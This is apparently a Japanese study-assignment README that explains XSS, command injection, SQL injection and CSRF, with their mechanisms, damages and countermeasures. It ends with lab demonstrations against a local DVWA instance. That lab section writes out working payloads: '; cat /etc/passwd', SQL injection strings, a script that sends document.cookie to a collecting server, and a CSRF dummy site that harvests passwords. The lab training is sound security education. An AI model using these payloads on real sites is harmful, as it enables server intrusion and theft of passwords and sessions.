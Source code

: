 # WEBサービスの代表的な脆弱性を理解する

## 課題1

### XSS

ユーザーからの入力をもとに他のユーザーに提供するWebページを出力するソフトウェアに、悪意あるスクリプトを入力する攻撃手法。

#### XSSの仕組み

XSSの脆弱性は、以下のような手順で発生する。

1. 攻撃者によって、フォームなどからデータが入力される
2. Webアプリケーションが、入力されたデータをもとにWebページを動的に生成する
3. 入力されたデータには悪意あるスクリプトが含まれているが、Webアプリケーションはこれを排除しない
4. 一般ユーザーが、生成されたページにアクセスする
5. 攻撃車によって仕組まれた悪意あるスクリプトが、一般ユーザーのブラウザで実行される

#### XSSの発生し得る被害

- 正規のページに見せかけた不正なページにユーザーを誘導し、意図しない商品の購入等を行わせる
- 偽のログインページにユーザーを誘導し、IDやパスワードを抜き取る
- 偽の情報入力ページにユーザーを誘導し、個人情報やクレジットカード等の重要な情報を抜き取る
- Cookieを勝手に設定して、セッションを乗っとる
- Cookieを盗み、セッションを乗っ取る

#### XSSの対処法

ユーザーの入力をもとに動的にWebページを出力する場合、スクリプトなどは無効化するようにする。

### コマンドインジェクション

Webアプリケーションのプログラム内に、shellなどのコマンドを文字列で組み立てて実行している実装がある場合、そこにデータに紛れさせたコマンド文字列を外部から送り込み、コンピュータを不正に操作する攻撃手法。

#### コマンドインジェクションの仕組み

1. 攻撃者によって、フォームなどからデータが入力される
2. Webアプリケーション内で入力値とともにコマンドの文字列が組み立てられる
3. コマンドの文字列がWebサーバーのshellにおいて解釈・実行される
4. 攻撃者の悪意によって、想定していないコマンドが実行される

#### コマンドインジェクションの発生し得る被害

- Webサーバー内に保管してある情報が漏洩する
- Webアプリケーション内の情報が改ざんされる
- Webサーバーを破壊される

#### コマンドインジェクションの対処法

shellなどのコマンドを文字列で組み立てて実行するような処理を実装しない。どうしても必要な場合は、`;`や`&&`などの文字を無効化するようにする。

### SQLインジェクション

Webアプリケーションのプログラム内に、SQL文にパラメータを埋め込んで文字列で組み立てて実行している実装がある場合、そこにパラメータに紛れさせた特殊記号を外部から送り込み、データベースを不正に操作する攻撃手法。

#### SQLインジェクションの仕組み

次のようなSQL文を使用したログイン判定プログラムを例とする。

```sql
SELECT uid FROM account_table WHERE uid='ユーザID' AND pw='パスワード'
```

ユーザーID`uid`とパスワード`pw`を入力パラメータとして受け取り、その組み合わせが有効だった場合、ユーザーアカウントのテーブル`account_table`からユーザーIDを取得する処理である。

ここで、ユーザーIDに`' OR 1=1--`を入力した場合、次のようなSQL文が組み立てられる。

```sql
SELECT uid FROM account_table WHERE uid='' OR 1=1--' AND pw='パスワード'
```

`'`で文字列定数が終了し、`OR 1=1`で検索結果が必ず真になり、`--`でそれ以降のSQL文がコメントとして無視される。この文字列パラメータを与えられた場合、ユーザーIDとパスワードの組み合わせ判定が常に真として返ってくるため、本来ログインを許可されていないユーザーIDでもログインが可能になってしまう。

#### SQLインジェクションの発生し得る被害

SQLを記述することで実現できる操作が全て可能になってしまう。

- 情報の流出
- 情報の改ざん
- データベースの破壊

#### SQLインジェクションの対処法

- 入力値をチェックして、SQLインジェクションが発生し得る文字列を無視するよう処理する
- フレームワークで用意されたクエリを利用して、SQLを直接書かない

### CSRF

ユーザーに罠のリンクを踏ませることでユーザーのブラウザにCookieなどを利用して攻撃手段を仕込み、ユーザーが利用している別のWebサービスに、ユーザーが意図しないリクエストを送らせる攻撃手法。

#### CSRFの仕組み

1. 攻撃者は、ユーザーに踏ませるための罠のWebサーバーを用意する
2. ユーザーがなんらかの理由で罠のリンクを踏む
3. ユーザーのブラウザに、偽のセッションIDなどの攻撃手段が仕込まれる
4. ユーザーが、攻撃者が想定していた攻撃対象のWebサービスにリクエストを送信する
5. ユーザーからのリクエストをWebサービスが受け入れ、攻撃が成立する

#### CSRFの発生し得る被害

- 情報の流出
- なりすまし・アカウントの乗っ取り

#### CSRFの対処法

Webサーバーは、照合情報の埋め込みをするなどして、受け取ったリクエストが本当にユーザーが意図して送信したリクエストかどうかを検証する

## 課題2

## 課題3

DVWAを利用する。

```shell
sudo docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

### コマンドインジェクションの実演

IPアドレスの入力欄に`; cat /etc/passwd`などと入力すると、`;`で内部のコマンドが一度終了し、サーバーで自由に操作ができる。

![コマンドインジェクション](./コマンドインジェクション.png)

### SQLインジェクションの実演

User IDの入力欄に`' union select user(),'A' #`などと入力すると、`'`でSQL文が一度終了し、`#`でそれ以降のSQL文をコメントとして無視できるため、SQLでデータベースを自由に操作できる。

![SQLインジェクション](./SQLインジェクション.png)

### CSRFの実演

パスワード変更ページのダミーサイトを用意する。ダミーサイトのリクエスト先をDVWAのパスワード変更ページと同様にすることで、ユーザーは自分がダミーサイトを通じてパスワードを変更したことに気づかない。ダミーサイト側で入力されたパスワードを収集する仕組みにしていばユーザーのパスワードを窃取することができる。

ダミーサイトの起動方法

```shell
// 本リポジトリのルートディレクトリで
yarn install --frozen-install
yarn dev
// localhost:8081でダミーサイトが表示される
```

### XSSの実演

名前を入力するフォームに`<script>window.location="http://localhost:8081?cookie="+document.cookie</script>`などと入力すると、cookieを取得し、用意したWebサーバーに送信することができる。
